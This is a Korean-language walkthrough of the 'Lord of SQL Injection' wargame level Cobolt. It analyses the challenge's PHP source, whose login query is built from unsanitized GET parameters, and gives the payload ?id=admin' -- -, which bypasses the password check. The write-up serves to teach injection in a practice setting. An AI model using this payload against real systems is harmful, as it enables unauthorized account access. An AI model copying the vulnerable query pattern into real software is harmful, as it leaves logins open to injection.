 # Lord of SQL Injection No.2 - Cobolt
## 문제 출제 의도
1. SQL Injection을 통해 원하는 값의 SELECT 가능 여부를 확인. 
## 소스 코드 분석
+ 소스 코드
Cobolt의 소스코드는 다음과 같다.
  ~~~
  <?php
    include "./config.php"; 
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    highlight_file(__FILE__); 
  ?>
  ~~~
+ 소스 코드 분석 <hr>
    ~~~
    ?php , ?>
    include "./config.php";
    login_chk();
    dbconnect();
    ~~~ 
    - 내용이 php로 작성되었다는 것을 알 수 있다.
    - congig.php라는 분리된 파일을 외부에서 불러와 적용시킨다.
    - login_chk(); 로그인 여부를 확인하는 함수라고 추정할 수 있다.
    - dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다.
    ~~~
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    ~~~
    - prob, . , ( , ) 이 받은 id 값에 있으면 No Hack ~_~이 출력된다.
    - prob, . , ( , ) 이 받은 pw 값에 있으면 No Hack ~_~이 출력된다.
    ~~~
     $result = @mysql_fetch_array(mysql_query($query));
    ~~~
    - mysql_fetch_array 인출된 값을 연관배열/숫자형 인덱스 로 저장한다.
    ~~~
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    ~~~
    - 만약 입력 받은 아이 값이 admin이면 solve("cobolt")를 출력하고 그렇지 않다면 You are not admin을 출력한다.
## 문제 해결
  + 풀이 방법 <hr>  
  **Get**방식으로 값을 입력받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    ?id=admin' -- -
    ~~~
    그러면 결과적으로 쿼리는 
    ~~~
    select id from prob_cobolt where id='admin'-- -' and pw=md5('')
    ~~~
    이 됨으로 $result['id']에 'admin'이 들어가 문제가 해결된다.